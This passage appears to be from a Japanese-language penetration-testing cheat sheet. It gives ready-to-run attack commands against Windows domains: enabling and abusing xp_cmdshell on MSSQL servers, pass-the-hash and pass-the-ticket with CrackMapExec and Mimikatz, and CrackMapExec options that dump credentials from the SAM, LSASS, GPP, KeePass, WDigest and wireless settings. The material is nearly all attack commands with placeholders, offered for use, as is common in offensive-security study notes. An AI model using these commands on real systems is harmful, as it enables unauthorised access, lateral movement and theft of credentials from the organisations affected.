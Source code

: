 - インスタンス列挙 (PowerUpSQL)
```powershell
Get-SQLInstanceDomain
```
- クエリ実行 (PowerUpSQL)
```powershell
Get-SQLQuery -Instance "<INSTANCE>" -username "<USER>" -password "<PASSWORD>" -query "<SQL_QUERY>"
```
- xp_cmdshell有効化 & コマンド実行 (PowerUpSQL)
```powershell
Get-SQLQuery -Instance "<INSTANCE>" ... -query "EXEC sp_configure 'show advanced options',1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell',1;RECONFIGURE;"
```

```powershell
Get-SQLQuery -Instance "<INSTANCE>" ... -query "EXEC xp_cmdshell 'whoami'"
```
- 接続 (mssqlclient.py)
```shell
mssqlclient.py <DOMAIN>/<USER>@<TARGET_IP> -windows-auth
```

```shell
SQL> enable_xp_cmdshell
```

```shell
SQL> xp_cmdshell whoami
```

## Pass-the-Hash (PtH) / Pass-the-Ticket (PtT)

### CrackMapExec (PtP)
ユーザーの認証情報が他のマシンでも使用されていないかの確認
- 認証情報とネットワーク範囲・ドメインを指定することで、一括ですでに手に入れた認証情報でログインできるマシンを洗いだせる
```sh
crackmapexec smb <ip/ネットワーク範囲> -u <user> -d <domain> -p <pass>
```
### CrackMapExec (PtH)
ユーザーのNTLMハッシュを使用してSMB経由で認証し、コマンド実行など
```shell
crackmapexec smb <TARGET_IP/ネットワーク範囲> -u <USER> -H <NTHASH>
```

管理者権限のアカウントが見つかったら、CrackMapExecで以下のコマンドも試せる
- `--local-auth --sam` : SAMに含まれているハッシュをダンプ
- `--local-auth -M lsassy` : mimikatzの主な攻撃対象のLSASSに含まれている資格情報をダンプ
- `--local-auth --shares` : SMB共有の列挙
- `-M keepass_discover` : Keepassファイルの探索
- `-M gpp_password` :  GPPパスワードの探索
- `-M wdigest` : WDigest認証の設定を確認し、メモリに平文パスワードが残っているかを探る
- `-M wireless` : インターネットの認証情報とSSID

他のモジュールも探したかったら
- `crackmapexec smb -L` : crackmapexecのモジュール一覧検索
### Mimikatz (Windows - PtH)
NTLMハッシュをメモリに注入し、そのユーザーになりすましてプロセスを実行
```powershell
privilege::debug
sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<NTHASH> /run:"cmd.exe"
```
### Mimikatz (Windows - PtT)
Kerberosチケットファイル（.kirbi）をメモリに注入し、そのチケットを使用して認証
```powershell
kerberos::ptt /path/to/ticket.kirbi
```